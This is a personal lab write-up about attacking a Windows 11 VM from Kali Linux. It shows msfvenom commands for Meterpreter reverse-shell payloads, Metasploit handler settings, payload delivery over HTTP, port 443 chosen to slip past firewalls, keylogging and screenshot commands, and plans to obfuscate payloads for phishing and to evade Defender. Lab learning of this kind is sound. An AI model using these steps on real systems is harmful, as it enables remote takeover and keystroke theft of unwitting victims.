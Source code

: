 -   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images/media/image7.png){width="13.458333333333334in"
        height="9.885416666666666in"}

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png){width="6.78125in"
        height="5.479166666666667in"}

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png){width="6.854166666666667in"
        height="5.489583333333333in"}

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png){width="6.802083333333333in"
        height="5.4375in"}

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png){width="7.03125in" height="5.59375in"}

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]{.underline}](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png){width="14.510416666666666in"
        height="9.15625in"}

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png){width="6.760416666666667in"
        height="5.4375in"}

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png){width="6.708333333333333in"
        height="5.416666666666667in"}

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png){width="6.802083333333333in"
        height="5.458333333333333in"}

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png){width="14.520833333333334in"
        height="11.520833333333334in"}

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png){width="6.666666666666667in"
        height="5.395833333333333in"}

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
